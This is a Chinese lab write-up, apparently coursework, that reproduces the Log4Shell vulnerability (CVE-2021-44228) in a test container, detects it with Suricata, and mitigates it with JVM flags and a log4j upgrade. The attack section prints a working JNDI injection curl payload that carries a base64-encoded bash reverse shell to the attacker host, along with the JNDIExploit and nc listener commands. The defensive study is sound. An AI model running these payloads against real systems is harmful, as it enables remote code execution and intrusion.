

# `log4j2` 漏洞复现与缓解修复

## 漏洞攻击

### 检测漏洞存在性

- 使用 `java decompiler` 反编译 `demo.jar` 后可观察到受影响组建的版本号为 `2.14.0` ,确实处于受影响版本范围内，同时可以定位到漏洞代码
 

### 验证漏洞可利用性

 - 选择使用 `PoC` 手动测试
 按照课程使用 `POST` 请求发现报错方法不被支持，改用 `GET` 请求
 
 刷新dnslog记录，成功验证漏洞可利用
 

### 评估漏洞利用效果

- 工具下载
由于课件中的国内镜像下载地址无法访问，选择先从 `github` 下载再通过 `scp` 传输到虚拟机中

传输完成后在虚拟机中计算校验和，确认无误


- 【手动】测试 `reverse shell` 的过程
直接在容器中创建反弹 `shell`

可以看到这个 `shell` 的输入、输出和错误输出重定向到指定 `IP` 地址（192.168.56.108）的指定端口（7777）,并且成功 `get flag`


- 开始漏洞利用
    - 在攻击者主机上启动工具
    ```bash
    java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.56.108
    ```
    - 在攻击者主机上提前运行监听程序，等待反弹连接
    ```bash
    nc -l -p 7777
    ```
    - 投放攻击代码:由于 `POST` 方法不被支持，改用 `GET` 方法
    ```bash
     curl "http://192.168.56.107:62564/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2F192.168.56.108%3A1389%2FTomcatBypass%2FCommand%2FBase64%2F$(echo -n 'bash -i >& /dev/tcp/192.168.56.108/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')%7D"
    ```
    
    - 攻击者主机成功 `getshell`
    


## 漏洞利用检测

- 启动 `suricata` 检测容器
```bash
 docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i eth1" jasonish/suricata:6.0.4
```


- 更新 `suricata 规则`，更新完成测试完规则之后会自动重启服务
```bash
docker exec -it suricata suricata-update -f
```


- 监视 `suricata` 日志
```bash
docker exec -it suricata tail -f /var/log/suricata/fast.log
```

- 重复前述漏洞攻击实验,分析日志输出

1. **03/23/2025 - 12:16:00.698506记录**
    - **时间**：2025年3月23日12点16分00秒698506微秒。
    - **规则**：`[1:2022973:1] ET POLICY Possible Kali Linux hostname in DHCP Request Packet`，表示检测到DHCP请求数据包中可能包含Kali Linux的主机名。
    - **分类**：`Potential Corporate Privacy Violation`，即潜在的企业隐私侵犯。
    - **优先级**：1（最高优先级）。
    - **流量信息**：源IP `192.168.56.107`，源端口68（DHCP客户端端口），目的IP `192.168.56.100`，目的端口67（DHCP服务器端口），协议为UDP。这表明在网络中的`192.168.56.107`主机通过DHCP请求获取IP地址时，其主机名可能暗示它是Kali Linux系统。Kali Linux常用于渗透测试等安全工作，在企业网络中未经授权使用可能存在安全风险。
2. **03/23/2025 - 12:17:54.026260及后续多条类似记录**
    - **时间**：从12点17分54秒开始，有多条相近时间的记录。
    - **规则**：`[1:2034818:2] ET POLICY Serialized Java Object returned via LDAPv3 Response`，意味着检测到通过LDAPv3响应返回了序列化的Java对象。
    - **分类**：`Potentially Bad Traffic`，即可能的恶意流量。
    - **优先级**：2（较高优先级）。
    - **流量信息**：源IP `192.168.56.108`，源端口1389（LDAP服务默认端口），目的IP `192.168.56.107`，不同的目的端口（如51870、51878等），协议为TCP。这显示`192.168.56.108`的LDAP服务器向`192.168.56.107`的客户端发送了序列化的Java对象。在许多情况下，序列化的Java对象可被用于利用Java应用程序中的漏洞，比如Log4j漏洞就涉及通过JNDI（Java Naming and Directory Interface ）利用LDAP服务加载恶意的Java对象，进而执行任意代码，所以这类流量被视为可疑。 


## 漏洞缓解以及效果验证

### **1. 停止当前运行的容器**
```bash
docker stop happy_curran
```


### **2. 重新启动容器并添加 JVM 参数并验证参数是否生效**
关闭日志消息解析功能：直接禁用 ${jndi:...} 等恶意字符串的解析。
```bash
docker run -d \
  -p 60443:8080 \  # 保持原端口映射
  -e "JAVA_TOOL_OPTIONS=-Dlog4j2.formatMsgNoLookups=true" \ 
  --name log4j-patched \  # 可选：指定新容器名称
  vulfocus/log4j2-cve-2021-44228:latest
```


### **3. 漏洞缓解验证**
- 重复攻击步骤，攻击机已无法成功 `getshell`


- 使用 `PoC` 手动测试验证漏洞可用性


## 漏洞修复

### **方法1：增加参数配置（临时方案）**
由于 `Log4j `提供了一个名为 `JNDI（Java Naming and Directory Interface）` 的功能，允许从远程服务器中动态加载类或资源。 在日志消息或参数中，`Log4j` 支持解析形如 `${}` 的表达式，并允许通过 `JNDI` 加载外部数据。因此，禁用 `JNDI` 查找功能 ，完全禁用 `JNDI` 加载 ， 禁用 `RMI` 和 `LDAP` 加载远程类 ， 禁用 `DNS` 缓存，防止基于 `DNS` 的利用 ， 在配置文件中明确禁用 `JNDI` 相关组件，应该能够暂时修复漏洞
```bash
# 启动一个名为"log4shell"的后台容器，使用漏洞靶场镜像
docker run -d --name log4shell \

  # 将宿主机的22220端口映射到容器8080端口（暴露Web服务）
  -p 22220:8080 \

  # 使用预置的Log4j2漏洞环境镜像（CVE-2021-44228）
  vulfocus/log4j2-rce-2021-12-09:1 \

  # 启动Java应用时添加安全参数：
  java \
    # 禁用Log4j的MessageLookup功能（缓解RCE漏洞）
    -Dlog4j2.formatMsgNoLookups=true \
    
    # 禁止RMI协议加载远程代码库（阻断JNDI注入攻击路径）
    -Dcom.sun.jndi.rmi.object.trustURLCodebase=false \
    
    # 禁止LDAP协议加载远程代码库（双重防护）
    -Dcom.sun.jndi.ldap.object.trustURLCodebase=false \
    
    # 设置DNS正解析缓存时间为0秒（立即刷新解析记录）
    -Dsun.net.inetaddr.ttl=0 \
    
    # 设置DNS负解析缓存时间为0秒（防止缓存攻击）
    -Dsun.net.inetaddr.negative.ttl=0 \

    # 运行漏洞演示应用（模拟存在漏洞的服务）
    -jar /demo/demo.jar
```

**效果验证**
重复攻击步骤，已无法成功 `getshell`


### **方法2：更新log4j2到2.17.1版本（长期方案）**
1. 由于容器中缺少更新必需工具，选择将 `demo.jar` 移入本机进行更新

2. 下载新版本 `log4j` 
```bash
 sudo wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-core/2.17.1/log4j-core-2.17.1.jar
  sudo wget https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-api/2.17.1/log4j-api-2.17.1.jar
```

3. 将替换完成后的 `demo.jar` 重新打包，传回容器
```bash
jar cfm0 ../demo-patched.jar ./META-INF/MANIFEST.MF -C . .
docker cp ./demo-patched.jar hungry_dhawan:/demo
```


4. 重启容器内的应用服务
```bash
docker exec -it hungry_dhawan /bin/bash -c "pkill -f 'java -jar /demo/demo.jar'; java -jar /demo/demo.jar &"
```
**出现问题，容器无法重启，多次尝试无果，仍待续作。**


